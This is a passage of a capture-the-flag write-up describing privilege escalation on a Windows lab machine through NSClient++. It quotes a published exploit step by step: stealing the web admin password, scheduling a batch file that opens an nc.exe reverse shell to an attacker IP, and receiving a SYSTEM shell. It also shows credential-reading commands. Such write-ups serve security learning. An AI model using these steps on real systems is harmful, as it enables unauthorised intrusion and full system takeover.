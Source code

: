 ### PrivEsc
Download winPEAS
Set up python server on attack machine
`nadine@SERVMON C:\Users\Nadine\Desktop>curl "http://10.129.240.129/winPEAS.bat" -o winPeas.bat`

WinPEAS shows NSClient++ is running. Checked searchsploit and found `windows/local/46802.txt`

> Exploit:
> 1. Grab web administrator password
> - open c:\program files\nsclient++\nsclient.ini
> or
> - run the following that is instructed when you select forget password
>         C:\Program Files\NSClient++>nscp web -- password --display
>         Current password: SoSecret
> 
> 2. Login and enable following modules including enable at startup and save configuration
> - CheckExternalScripts
> - Scheduler
> 
> 3. Download nc.exe and evil.bat to c:\temp from attacking machine
>         @echo off
>         c:\temp\nc.exe 192.168.0.163 443 -e cmd.exe
> 
> 4. Setup listener on attacking machine
>         nc -nlvvp 443
> 
> 5. Add script foobar to call evil.bat and save settings
> - Settings > External Scripts > Scripts
> - Add New
>         - foobar
>                 command = c:\temp\evil.bat
> 
> 6. Add schedulede to call script every 1 minute and save settings
> - Settings > Scheduler > Schedules
> - Add new
>         - foobar
>                 interval = 1m
>                 command = foobar
> 
> 7. Restart the computer and wait for the reverse shell on attacking machine
>         nc -nlvvp 443
>         listening on [any] 443 ...
>         connect to [192.168.0.163] from (UNKNOWN) [192.168.0.117] 49671
>         Microsoft Windows [Version 10.0.17134.753]
>         (c) 2018 Microsoft Corporation. All rights reserved.
> 
>         C:\Program Files\NSClient++>whoami
>         whoami
>         nt authority\system

```Console
PS C:\Users\Nadine> type "C:\Program Files\NSClient++\nsclient.ini" | findstr password
password = ew2x6SsGTxjRwXOT
PS C:\Users\Nadine> type "C:\Program Files\NSClient++\nsclient.ini" | findstr 127
allowed hosts = 127.0.0.1
```
